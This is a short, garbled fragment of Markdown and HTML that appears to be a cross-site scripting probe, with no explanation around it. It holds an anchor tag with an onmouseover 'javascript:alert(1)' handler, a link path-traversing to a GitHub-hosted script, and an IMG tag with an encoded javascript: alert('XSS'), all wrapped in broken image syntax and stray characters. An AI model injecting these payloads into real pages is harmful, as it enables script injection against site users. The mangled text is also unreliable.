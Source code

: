 ![
%0a
<a href="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="\bjavascript:alert(1)" onmouseover="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
